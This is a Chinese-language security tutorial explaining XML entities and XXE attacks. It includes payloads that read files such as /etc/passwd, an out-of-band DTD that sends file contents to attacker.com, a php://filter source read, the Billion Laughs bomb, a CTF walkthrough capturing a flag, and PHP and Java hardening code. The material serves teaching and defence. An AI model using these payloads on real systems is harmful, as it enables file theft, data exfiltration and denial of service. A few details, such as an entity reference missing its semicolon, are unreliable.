

# XML基础语法、DTD实体解析机理与有回显XXE利用

---

## 0. 基础前置知识扫盲：从生活比喻彻底搞懂 XML 与实体

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


很多初学者在刚开始接触 Web 安全时，看到 JSON 觉得很亲切（`{"user": "admin"}`），但一看到 XML（可扩展标记语言）就觉得头大：满屏幕的尖括号 `<>`、各种奇怪的 `<!DOCTYPE>`、`<!ENTITY>` 和 `&name;`。
要搞懂 **XXE（XML External Entity Injection，XML 外部实体注入漏洞）**，我们必须先从最基础的概念层层剥茧。

### 1. XML 到底是什么？它与 JSON 的本质区别
- **JSON**：现代轻量级数据交换格式。它只有简单的键值对、数组、数字和字符串，**不具备可编程性与宏定义能力**。
- **XML（可扩展标记语言）**：在微服务和老旧企业系统（SOAP WebService、财务发票系统、微信支付回调、Office 文档）中广泛使用。
  - XML 的野心非常大：它不仅要传输数据，还希望**自带一份“数据规范说明书”**，并且允许在文档内部**定义变量与宏引用**！

### 2. 通俗生活类比：文章中的“缩写替换”与“云快捷方式”
- **实体（Entity）**：XML 中的实体，本质上就是编程语言里的**“变量”**，或者 Word 文档里的**“查找替换”**。
  - **内部实体（普通变量）**：
    比如你在文章里写了很多处“中国网络安全空间发展协会”，嫌字太长，你在文章开头的**字典（DTD）**里定义一个实体：
    `<!ENTITY org "中国网络安全空间发展协会">`
    之后在正文中只要写 `&org;`，XML 解析器在阅读时就会**自动把它替换展开**为完整的长名字！
  - **外部实体（云快捷方式 / 致命隐患）**：
    XML 允许你定义一个实体，但它的值**不在当前文档里**，而是指向外部的一部字典甚至一个网络文件：
    `<!ENTITY my_data SYSTEM 'file:///etc/passwd'>`
    关键字 `SYSTEM` 告诉解析器：“请帮我打开本地系统的 `/etc/passwd` 文件，把里面的文字全部读出来，塞进这个变量里！”
  - **漏洞爆发时刻（XXE）**：
    如果网站允许你上传或提交 XML 数据，而服务器的 XML 解析器又**默认开启了外部实体解析**，黑客就能堂而皇之地在 XML 里让服务器去读取任意系统敏感文件，甚至让服务器去敲内网其他服务器的门（SSRF）！



---

## 1. DTD 文档类型定义与实体分类深度拆解

**DTD（Document Type Definition，文档类型定义）** 是 XML 的约束语法，用来规定 XML 里可以有哪些标签、标签里有哪些实体。

### 1.1 实体的两大维度四种分类

| 分类维度 | 实体类型 | 语法特征 | 作用域与核心用途 |
| :--- | :--- | :--- | :--- |
| **按内容来源** | **内部实体** | `<!ENTITY 变量名 "纯文本值">` | 仅在当前 XML 内部进行简单的静态字符串替换。 |
| | **外部实体 (高危)** | `<!ENTITY 变量名 SYSTEM "URI">` | **XXE 攻击核心**。通过 `SYSTEM` 关键字让解析器抓取本地文件或远程 URL。 |
| **按使用位置** | **通用实体** | 声明时不带 `%`，引用时使用 `&变量名;` | 在 XML 文档的**正文数据标签**（如 `<user>&xxe</user>`）中引用。 |
| | **参数实体** | 声明时带有 `%`，引用时使用 `%变量名;` | **只能在 DTD 规则内部**引用，专门用于无回显 Blind XXE 与跨 DTD 嵌套。 |

### 1.2 为什么需要“参数实体（%）”？从宏定义类比到无回显 OOB 嵌套

很多新手在初学 XXE 时，会被通用实体（`&xxe;`）和参数实体（`%param;`）绕晕：既然都有了实体，为什么还要搞一个带百分号 `%` 的参数实体？

#### 1. 生活比喻与开发对照：
- **通用实体（`&xxx;`）**：相当于**正文内容占位符**（类似邮件正文里的 `${username}` 或合同里的乙方签名占位符）。
  - 它只能在 XML **正文标签**内使用（例如 `<note>&content;</note>`）；
  - **致命局限**：XML 解析规范严厉禁止在内部 DTD 规则内部用通用实体拼接出新的实体声明！
- **参数实体（`%xxx;`）**：相当于 C/C++ 语言的**预处理宏（`#define`）**或模板元编程。
  - 它是**专门给 DTD 规则定义本身使用的内部变量**，**不能**出现在 XML 正文标签里！
  - 它的核心使命是**“在 DTD 内部动态组装、拼接和扩展新的 DTD 规则”**。

#### 2. 语法格式与代码对照示例：
```xml
<!-- 场景 1：通用实体（用于正文数据展示） -->
<!DOCTYPE test [
    <!ENTITY normalVar "我是一段普通正文内容">
]>
<data>&normalVar;</data> <!-- 正文标签通过 & 引用，合法 -->

<!-- 场景 2：参数实体（用于 DTD 内部宏替换与动态组装） -->
<!DOCTYPE test [
    <!-- 声明参数实体：ENTITY 和变量名之间必须有一个百分号与空格 -->
    <!ENTITY % remoteDTD SYSTEM "http://attacker.com/evil.dtd">
    <!-- 在 DTD 内部直接通过 %remoteDTD; 触发远程 DTD 加载解析 -->
    %remoteDTD;
]>
<data>test</data>
```

#### 3. 实战核心价值：无回显 Blind XXE 的“动态拼接器”
当目标服务器解析了 XML，但页面**完全不回显**任何查询结果时，通用实体直接失效。此时必须靠**参数实体**在外部 DTD 中完成动态字符串拼接：
```xml
<!-- 攻击者服务器上的 evil.dtd 内容 -->
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!-- 利用参数实体 %file; 动态拼装出一个带外发送请求 (&#x25; 为 % 的实体编码) -->
<!ENTITY % send "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?data=%file;'>">
%send;
%exfiltrate;
```
> [!NOTE] 💡 核心机制
> 这里的 `%file;` 会把 `/etc/hostname` 的文件内容读取出来，动态替换进 `http://attacker.com/?data=...` 的 URL 中，然后通过发起 HTTP 请求把敏感数据直接“偷”到攻击者的服务器访问日志中！这就是参数实体的威力所在。

---

## 2. 有回显 XXE（Classic In-Band XXE）利用与协议矩阵

当目标系统的业务逻辑会将 XML 解析后的某个节点内容直接输出到 HTML 页面、或者作为 JSON 格式返回时，即构成**有回显 XXE**。这是利用最直接、最顺畅的场景。

### 2.1 基础攻击载荷（Payload 逐行剖析）

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- 步骤 1：声明文档类型 DTD，名称任意，如 root -->
<!DOCTYPE root [
    <!-- 步骤 2：使用 SYSTEM 关键字定义一个名为 xxe 的外部实体，指向目标文件 -->
    <!ENTITY xxe SYSTEM 'file:///etc/passwd'>
]>
<!-- 步骤 3：在正文标签中通过 &xxe 引用该实体 -->
<root>
    <username>&xxe</username>
    <password>123456</password>
</root>
```

#### 关键参数与关键字详解：
- `<!DOCTYPE root [...]>`：定义当前 XML 的文档类型定义块。`root` 是当前 XML 的根节点名称（必须与最外层的 `<root>` 标签名一致）。
- `<!ENTITY xxe SYSTEM "URI">`：
  - `xxe`：自定义的实体名称；
  - `SYSTEM`：系统外部资源指示符，告诉解析器该实体内容需要通过底层协议读取；
  - `file:///etc/passwd`：目标资源的 URI 统一资源标识符。
- `<username>&xxe</username>`：XML 解析器在遇到 `&` 和 `;` 包裹的名字时，会自动用该实体的解析结果予以替换。

---

### 2.2 不同编程语言与解析器的伪协议支持矩阵

不同后端环境的 XML 解析器（如 PHP 的 `libxml2`、Java 的 `Xerces`、Python 的 `lxml`）所支持的协议前缀截然不同：

| 支持协议前缀 | PHP (libxml2) | Java (DOM4J / SAX) | .NET (XmlDocument) | 典型实战用途 |
| :--- | :---: | :---: | :---: | :--- |
| `file:///path` | ✅ 支持 | ✅ 支持 | ✅ 支持 | 读取服务器本地敏感文件（如 `/etc/passwd`, `C:/windows/win.ini`）。 |
| `http://ip:port` | ✅ 支持 | ✅ 支持 | ✅ 支持 | **发起 SSRF**，探测内网主机存活、扫描端口或打内网 Web API。 |
| `https://` | ✅ 支持 | ✅ 支持 | ✅ 支持 | 带外回传数据或加载外部恶意 DTD。 |
| `ftp://` | ✅ 支持 | ✅ 支持 | ❌ 弱支持 | 无回显 Blind XXE 突破换行符截断外带大文件。 |
| `php://filter` | ✅ **专属杀器** | ❌ 不支持 | ❌ 不支持 | 读取包含 `<`、`>`、`&` 的 PHP 源码文件，防止因语法冲突解析报错。 |
| `expect://` | ⚠️ 需拓展 | ❌ 不支持 | ❌ 不支持 | 直接在目标服务器执行系统命令（若安装了 PHP expect 拓展）。 |

---

### 2.3 PHP 环境特殊痛点：利用 `php://filter` 读取源码

在读取普通文本文件（如 `/etc/passwd`）时，`file:///` 可以顺畅执行。
但如果你尝试读取一个 PHP 脚本（如 `file:///var/www/html/config.php`），常常会遇到**报错 500**：
- **原因**：`config.php` 里面包含了大量的 `<?php`、`>`、`$` 等特殊字符。XML 解析器在展开该实体时，误以为这些尖括号是 XML 的标签，直接导致 XML 语法解析崩溃（XML Parsing Error）！
- **降维解决方案**：在 PHP 中配合使用 `php://filter` 伪协议，将目标文件先转换成安全的 **Base64 编码**：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY source SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/config.php">
]>
<root>
    <data>&source;</data>
</root>
```
页面将返回一串纯净的 Base64 密文，在本地解码即可 100% 还原数据库密码与核心源码！

---

## 3. 拒绝服务炸弹：十亿声大笑（Billion Laughs DoS 攻击）

除了窃取文件，XXE 还存在一种完全不需要访问外部网络的攻击方式——**XML 炸弹（XML Entity Expansion DoS）**。

### 3.1 攻击原理：指数级指数膨胀
利用内部实体的递归嵌套引用，让微小的 1KB XML 数据包在服务器内存中被解析器指数级展开为数吉字节（GB），瞬间耗尽 CPU 与内存并导致服务器进程直接崩溃：

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
- 每个 `lolX` 包含 10 个上一级实体，`lol9` 将被展开为 $10^9$（10 亿）个 "lol" 字符串；
- 一个仅 1KB 的请求，将在服务器内存中瞬间膨胀为 **3GB** 内存开销，直接触发 Out of Memory（OOM）打崩 Web 容器！

---

## 4. CTF / 真实靶场实战：打穿包含 XML 解析的登录与查询接口

### 赛题环境：
- 目标：某企业员工内部信息查询门户；
- 请求入口：`POST /api/user_query`；
- 数据提交格式：Content-Type 为 `application/xml`。

### 进攻全流程实操：

#### 步骤 1：捕获正常数据包并探查
在 Burp Suite 中抓取点击查询按钮时的原始 HTTP 请求：
```http
POST /api/user_query HTTP/1.1
Host: ctf.company.local
Content-Type: application/xml
Content-Length: 95

<?xml version="1.0" encoding="UTF-8"?>
<user>
    <id>1001</id>
    <name>Guest</name>
</user>
```
**服务器正常回显**：
```http
HTTP/1.1 200 OK
Content-Type: application/json

{"status": "success", "result": "Welcome back, Guest! Your department: IT."}
```
**关键发现**：服务器不仅解析了 XML，还把 `<name>` 标签里的内容直接拼接回显在返回数据中！这就是标准的**有回显输出槽位**！

#### 步骤 2：植入实体并探测文件读取
修改请求包，在根节点上方插入 DTD 实体，并在 `<name>` 标签中引用：
```http
POST /api/user_query HTTP/1.1
Host: ctf.company.local
Content-Type: application/xml
Content-Length: 180

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE user [
    <!ENTITY leak SYSTEM "file:///etc/hosts">
]>
<user>
    <id>1001</id>
    <name>&leak;</name>
</user>
```
**服务器返回**：
```http
HTTP/1.1 200 OK

{"status": "success", "result": "Welcome back, 127.0.0.1 localhost\n192.168.10.100 dc.internal.local! Your department: IT."}
```
成功读取到了内网 Host 解析记录！

#### 步骤 3：夺取 Flag
直接将实体指向敏感文件 `/flag`：
```http
<!DOCTYPE user [
    <!ENTITY leak SYSTEM "file:///flag">
]>
<user>
    <id>1001</id>
    <name>&leak;</name>
</user>
```
**回显返回**：
`{"status": "success", "result": "Welcome back, flag{XXE_B4s1c_1n_B4nd_Pwn3d_2026}! Your department: IT."}`
顺利斩获 Flag！

---

## 5. 蓝队企业级纵深防御与代码级加固规范

防御 XXE 漏洞的核心思想只有一句话：**“彻底禁用外部实体与外部 DTD 解析”**。

### 1. PHP 语言防御（版本差异与避坑陷阱）

```php
// 方案 A：针对 PHP 7.x 及更早版本（必须显式关闭实体加载器）
libxml_disable_entity_loader(true);

// 核心避坑：解析函数绝对不要传入 LIBXML_NOENT 参数！
// 【反直觉陷阱】：LIBXML_NOENT 英文全称是 "No Entities in Output"，字面意思是“输出中没有实体”，
// 但在底层实现中，它的真实含义是“把所有实体全部强制展开替换”！一旦传入该常量，将直接诱发 XXE 实体解析！
$xml = simplexml_load_string($user_input);

// 方案 B：针对 PHP 8.0+ 现代版本
// 1. 底层 libxml 2.9.0+ 起已默认全面禁用外部实体加载；
// 2. libxml_disable_entity_loader() 在 PHP 8.0 中已被官方正式标记为废弃（Deprecated）；
// 3. 在 PHP 8 中，只要不主动传入 LIBXML_NOENT 或 LIBXML_DTDLOAD，默认即具备绝对免疫力。
```

### 2. Java 语言防御（DocumentBuilderFactory 标准配置）
Java 是 XXE 历史高发重灾区，必须在解析器初始化阶段强制设置安全特性：
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();

// 1. 完全禁止包含 DOCTYPE 声明 (推荐方案，直接从根源杜绝 DTD)
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);

// 2. 如果业务确实需要使用局部 DTD，则至少关闭外部实体
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

### 3. 数据交换格式转型
在非强制要求 XML 的新项目中，**全面推行 JSON 格式**（RESTful API）代替 XML，从架构上彻底根绝整个 XML 攻击面。
